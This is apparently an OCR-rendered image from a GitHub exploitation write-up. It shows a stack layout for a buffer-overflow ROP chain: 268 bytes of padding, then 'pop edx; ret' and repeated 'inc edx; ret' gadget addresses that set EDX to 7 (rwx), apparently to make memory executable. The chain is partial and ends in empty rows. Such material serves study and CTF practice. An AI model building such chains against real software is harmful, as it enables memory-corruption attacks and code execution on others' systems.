 --------------------------
A * 268
--------------------------
0xF7DB04FC                  <== `pop edx; ret` gadget
--------------------------
0xffffffff                  <== esp will contain 0xffffffff
--------------------------
0xF7E157F8                  <== `inc edx; ret` gadget, when it will be exec, EDX will contain 0 (ffffffff + 1 = 0)
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8
--------------------------
0xF7E157F8                  <== EDX now contains 7 aka `rwx`
--------------------------

--------------------------

--------------------------

--------------------------

--------------------------

--------------------------

--------------------------

--------------------------

--------------------------

--------------------------
